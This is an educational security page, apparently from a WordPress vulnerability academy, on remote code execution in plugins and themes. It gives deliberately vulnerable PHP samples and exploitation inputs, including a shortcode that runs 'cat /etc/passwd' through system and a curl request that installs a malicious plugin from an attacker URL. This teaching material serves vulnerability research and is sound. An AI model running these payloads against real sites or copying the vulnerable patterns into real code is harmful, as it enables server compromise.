 ```yaml
---
title: Remote Code Execution (RCE)
head:
    - tag: title
      content: Learn about Remote Code Execution (RCE)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible direct RCE on WordPress. This includes improper usage of functions inside the plugin/theme, which can be used to directly execute code or a command on the server.

<LinkCard
  title="Learn how to secure your code against RCE"
  href="/academy/wordpress/securing-code/remote-code-execution/"
/>

## Useful Functions

Several functions could be useful to identify a possible RCE vulnerability:

- [`system`](https://www.php.net/manual/en/function.system.php)
- [`exec`](https://www.php.net/manual/en/function.exec.php)
- [`shell_exec`](https://www.php.net/manual/en/function.shell-exec.php)
- [`passthru`](https://www.php.net/manual/en/function.passthru.php)
- [`proc_open`](https://www.php.net/manual/en/function.proc-open.php)
- [`eval`](https://www.php.net/manual/en/function.eval.php)
- [`call_user_func`](https://www.php.net/manual/en/function.call-user-func.php)
- [`call_user_func_array`](https://www.php.net/manual/en/function.call-user-func-array.php)
- [`create_function`](https://www.php.net/manual/en/function.create-function.php) *DEPRECATED as of PHP 7.2.0, and REMOVED as of PHP 8.0.0*

## Dynamic Function Call

PHP also supports a dynamic function call where we can execute a function from a string or variable. For example :

```php
$action_type = $_GET["action"];
$input = $_GET["input"];

echo $action_type($input);
```

We can simply supply the `action` parameter with an arbitrary function, such as `system`, and put our shell command on the `input` parameter.

## Example Cases

Below is an example of vulnerable code:

```php
function image_render_callback($atts) {
	$atts = shortcode_atts( array(
		'sanitize' => 'esc_attr',
		'src'=>'',
        'text'=>''
	), $atts);

    $chosen_callback = "esc_attr";
    $sanitize_callback = array("trim", "esc_attr", "esc_html", "sanitize_text_field");
    if(!in_array($atts["sanitize"], $sanitize_callback)){
        $chosen_callback = $atts["sanitize"];
    }

    if ( ! empty( $chosen_callback ) && is_callable( $chosen_callback ) ) {
        $text = call_user_func( $chosen_callback, $atts["text"] );
    }

    return sprintf("<img src='%s'>%s</img>", esc_attr($atts["src"]), esc_html($text));

}

add_shortcode("imagerender", "image_render_callback");
```

To exploit this, the Contributor+ role user simply needs to create a drafted post with the below content to trigger RCE via the `call_user_func` function:

```json
[imagerender src="https://patchstack.com" sanitize="system" text="cat /etc/passwd"]
```

## Arbitrary Plugin Installation

If there is no proper permission check while installing the plugins, it can lead to Remote Code Execution. An attacker can just create a malicious ZIP and provide it as the source to install the webshell in the WordPress site.

```php
add_action('wp_ajax_nopriv_install_remote_plugin', function() {
    if (isset($_GET['install_plugin_url'])) {
        $plugin_url = esc_url_raw($_GET['install_plugin_url']);

        include_once ABSPATH . 'wp-admin/includes/class-wp-upgrader.php';
        include_once ABSPATH . 'wp-admin/includes/file.php';
        include_once ABSPATH . 'wp-admin/includes/misc.php';

        $upgrader = new Plugin_Upgrader();
        $upgrader->install($plugin_url);
    }
});
```

To exploit this, any unauthenticated user just needs to perform a GET request to the `/wp-admin/admin-ajax.php` endpoint specifying the remote URL of the malicious plugin.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=install_remote_plugin&install_plugin_url=http://<malicious-url>
```

Below are some of the findings related to RCE:

- [Authenticated RCE in JetElements For Elementor Plugin](https://patchstack.com/articles/authenticated-rce-in-jetelements-for-elementor-plugin/)
- [Critical RCE Patched in Bricks Builder Theme](https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/)
- [Critical Vulnerability Found in GOTMLS Plugin](https://patchstack.com/articles/critical-vulnerability-found-in-gotmls-plugin/)
- [Unpatched Authenticated RCE in Oxygen and Breakdance Builder](https://patchstack.com/articles/unpatched-authenticated-rce-in-oxygen-and-breakdance-builder/)